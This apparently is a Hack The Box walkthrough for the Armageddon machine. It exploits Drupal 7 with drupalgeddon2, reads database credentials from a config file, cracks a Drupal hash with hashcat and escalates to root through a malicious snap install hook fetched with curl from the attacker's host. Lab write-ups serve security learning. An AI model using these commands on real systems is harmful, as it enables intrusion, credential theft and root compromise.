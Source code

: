 # Armageddon
This box begins with an easy entry-point; through enumeration we get access to a database; and the final exploitation is a pretty fun learning experience.

![Armageddon](../Images/htb_armageddon_1.png)

**Tools: nmap, metasploit, hashcat, snap, fpm.**

We begin with the nmap scan:  
`nmap -Pn -sV -sC --min-rate=10000 -p- 10.10.10.233`

![Armageddon](../Images/htb_armageddon_2.png)

Ports 22 and 80 are open, and we can see that the webpage is using Drupal 7 (content manager).

![Armageddon](../Images/htb_armageddon_3.png)

Checking the webpage, there's nothing much to do, and at the source we can confirm that it is indeed using Drupal 7.

![Armageddon](../Images/htb_armageddon_4.png)

A quick search for exploits reveals us some vulnerabilities.

![Armageddon](../Images/htb_armageddon_5.png)

We'll be using the drupalgeddon2 exploit from the msfconsole (Metasploit).

![Armageddon](../Images/htb_armageddon_6.png)

We get a meterpreter shell.  
At this point we have to start a manual enumeration. At the /var/www/html/sites/default we can see a few files, and after reading through the settings.php we are able to find an username and password for the mysql database.

![Armageddon](../Images/htb_armageddon_7.png)

![Armageddon](../Images/htb_armageddon_8.png)

```
drupaluser  
CQHEy@9M*m23gBVj  
```

Now, to interact with mysql we have to spawn a shell from the meterpreter, then proceed to enumerate the database.  
```
shell  
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e 'show databases';  
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -D drupal -e 'show tables';
```

![Armageddon](../Images/htb_armageddon_9.png)

Now, from the users table, we are able to get a username and its hash.  
`mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -D drupal -e 'select  from users';`

![Armageddon](../Images/htb_armageddon_10.png)

```
brucetherealadmin  
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt  
```

Through a quick search on the hashcat's help, we can see that Drupal 7 has an specific hash for the passwords. And so, we're able to get the user's password:  
```
hashcat --help | grep -i "drupal"  
hashcat -m 7900 '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt' /usr/share/wordlists/rockyou.txt --show  
```

![Armageddon](../Images/htb_armageddon_11.png)

We get the password 'booboo'.  
Now we can try to login through SSH and grab the user flag.  
`ssh brucetherealadmin@10.10.10.233`

![Armageddon](../Images/htb_armageddon_12.png)

We can see that the user can run 'snap_install' with sudo permissions. Snap is a package manager, similar to apt and yum.  
`sudo -l`

![Armageddon](../Images/htb_armageddon_13.png)

At [GTFObins](https://gtfobins.github.io/gtfobins/snap/) we can find a way to use this elevated privileges to gather information. When trying to run the commands, though, it will inform us that 'fpm' is not installed. There's a [Github page](https://github.com/jordansissel/fpm) for fpm, where we can also find the [installation guide](https://fpm.readthedocs.io/en/latest/installing.html).   
First make sure that you have ruby and its dependencies:  
`apt-get install ruby ruby-dev rubygems build-essential`

Then through gem install fpm:  
`gem install --no-document fpm`

And if you need, you can also install snap (I already had it installed, so I'm not sure if it is needed):  
`apt install snapd`

Now you can copy the commands from the GTFObins and paste in in the terminal (if it's not copying correctly, first paste it on a text file, then copy again the commands from the file).   
The detail here is that, the default command from GTFObins is 'id', which will just show the user information - I've changed mine to read the root.txt file right away, giving us the root flag.  
```
COMMAND="cat /root/root.txt"  
cd $(mktemp -d)  
mkdir -p meta/hooks  
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install  
chmod +x meta/hooks/install  
fpm -n xxxx -s dir -t snap -a all meta
```

This will create our snap package. Now simply run a python3 http server to send the file to the box.

![Armageddon](../Images/htb_armageddon_14.png)

And then from the box download the package (I did it from the /tmp directory to avoid 'spoiling' the other players).  
`curl <yourIP>/xxxx_1.0_all.snap > my.snap`

And then run the package installer using the command provided at the GTFObins page:  
`sudo snap install my.snap --dangerous --devmode`

If everything works correctly - it might take a few seconds - you'll get your root flag at the end of the text output, just like shown below.

![Armageddon](../Images/htb_armageddon_15.png)

**That's it for this box!**  
Thanks for reading and keep hacking!
